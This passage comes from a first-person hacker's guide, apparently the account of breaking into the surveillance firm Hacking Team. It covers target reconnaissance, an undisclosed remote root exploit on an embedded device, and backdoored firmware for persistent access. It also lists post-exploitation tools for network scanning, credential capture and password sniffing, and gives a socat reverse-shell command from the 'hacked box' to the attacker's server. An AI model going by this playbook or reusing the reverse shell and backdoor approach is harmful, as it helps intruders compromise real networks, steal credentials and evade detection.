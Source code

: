 Hacking Team had very little exposed to the internet. For example, unlike
Gamma Group, their customer support site needed a client certificate to
connect. What they had was their main website (a Joomla blog in which Joomscan
[2] didn't find anything serious), a mail server, a couple routers, two VPN
appliances, and a spam filtering appliance. So, I had three options: look for
a 0day in Joomla, look for a 0day in postfix, or look for a 0day in one of the
embedded devices. A 0day in an embedded device seemed like the easiest option,
and after two weeks of work reverse engineering, I got a remote root exploit.
Since the vulnerabilities still haven't been patched, I won't give more
details, but for more information on finding these kinds of vulnerabilities,
see [3] and [4].

[1] http://pastebin.com/raw.php?i=cRYvK4jb
[2] http://sourceforge.net/projects/joomscan/
[3] http://www.devttys0.com/
[4] https://docs.google.com/presentation/d/1-mtBSka1ktdh8RHxo2Ft0oNNlIp7WmDA2z9zzHpon8A


## --[ 6 - Be Prepared ]-----------------------------------------------------------

I did a lot of work and testing before using the exploit against Hacking Team.
I wrote a backdoored firmware, and compiled various post-exploitation tools
for the embedded device. The backdoor serves to protect the exploit. Using the
exploit just once and then returning through the backdoor makes it harder to
identify and patch the vulnerabilities.

The post-exploitation tools that I'd prepared were:

1) busybox

   For all the standard Unix utilities that the system didn't have.

2) nmap

   To scan and fingerprint Hacking Team's internal network.

3) Responder.py

   The most useful tool for attacking windows networks when you have access to
   the internal network, but no domain user.

4) Python

   To execute Responder.py

5) tcpdump

   For sniffing traffic.

6) dsniff

   For sniffing passwords from plaintext protocols like ftp, and for
   arpspoofing. I wanted to use ettercap, written by Hacking Team's own ALoR
   and NaGA, but it was hard to compile it for the system.

7) socat

   For a comfortable shell with a pty:
   my_server: socat file:`tty`,raw,echo=0 tcp-listen:my_port
   hacked box: socat exec:'bash -li',pty,stderr,setsid,sigint,sane \
		  tcp:my_server:my_port
